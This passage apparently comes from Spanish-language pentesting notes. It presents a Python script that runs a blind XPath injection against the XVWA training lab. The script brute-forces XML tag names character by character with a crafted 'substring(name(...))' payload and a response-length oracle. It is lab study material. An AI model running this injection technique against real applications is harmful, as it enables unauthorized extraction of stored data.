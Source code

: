 Si volvemos a ver el archivo *coffee.xml* vemos que es una estructura ya muy similar a la original, solo falta el nombre de las últimas etiquetas

**Nota:** con el proceso de enumeración en BurpSuite llegamos a la conclusión del número de etiquetas y sub-etiquetas del archivo `.xml` que estamos reconstruyendo

---

**Script Fuerza bruta múltiples etiquetas:**

```python
#/usr/env/bin python3

from pwn import *

import requests, time, sys, pdb, string, signal

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
main_url = "http://192.168.1.70/xvwa/vulnerabilities/xpath/"
characters = string.ascii_letters

def xPathInjection():

    data = ""

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando ataque de fuerza bruta")

    time.sleep(2)

    p2 = log.progress("Data")

    for first_position in range(1, 6):
        for second_position in range(1, 21):
            for character in characters:

                post_data = {
                    'search': "1' and substring(name(/*[1]/*[1]/*[%d]),%d,1)='%s" % (first_position, second_position, character),
                    'submit': ''
                }

                r = requests.post(main_url, data=post_data)

                if len(r.text) != 8691 and len(r.text) != 8692:
                    data += character
                    p2.status(data)
                    break

        if first_position != 5:
            data += ":"

    p1.success("Ataque de fuerza bruta concluido")
    p2.success(data)

if __name__ == '__main__':
    xPathInjection()
```
